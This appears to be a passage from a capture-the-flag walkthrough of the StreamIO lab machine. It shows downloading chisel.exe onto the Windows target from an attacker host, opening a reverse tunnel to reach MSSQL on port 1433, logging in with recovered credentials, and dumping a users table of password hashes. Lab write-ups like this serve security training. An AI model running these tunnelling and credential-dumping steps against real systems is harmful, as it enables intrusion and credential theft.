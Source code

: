 Start chisel server in our machine:
```bash
$ ./chisel server -p 8000 --reverse
```

Upload chisel for windows to the target and forward port 1433:
```powershell
PS C:\inetpub\streamio.htb\admin> wget 10.10.14.30/chisel.exe -o chisel.exe

PS C:\inetpub\streamio.htb\admin> .\chisel.exe client 10.10.14.30:8000 R:1433:127.0.0.1:1433
```

Now we can connect to MSSQL using the credentials we found earlier:
```bash
$ sqsh -S 127.0.0.1 -U db_admin -P 'B1@hx31234567890'
```

Enumerating the databases:
```bash
1> SELECT name, database_id, create_date                                                                                                                 
FROM sys.databases
2> go

master                 
tempdb
model                                                                                                                                            
msdb
STREAMIO
streamio_backup
```

Lets dum the users table of streamio_backup database:
```bash
1> use streamio_backup                                                                                                                                   
2> go                                                                                                                                                    
1> select * from users                                                                                                                                   
2> go

1 nikk37        389d14cb8e4e9b94b137deb1caf0612a                                                                                                                 
2 yoshihide     b779ba15cedfd22a023c4d8bcf5f2332                                                                                                                 
3 James         c660060492d9edcaa8332d89c99c9239                                                                                                                 
4 Theodore      925e5408ecb67aea449373d668b7359e                                                                                                                 
5 Samantha      083ffae904143c4796e464dac33c1f7d                                                                                                                 
6 Lauren        08344b85b329d7efd611b7a7743e8a09                                                                                                                 
7 William       d62be0dc82071bccc1322d64ec5b6c51                                                                                                                 
8 Sabrina       f87d3c0d6c8fd686aacc6627f1f493a5
```
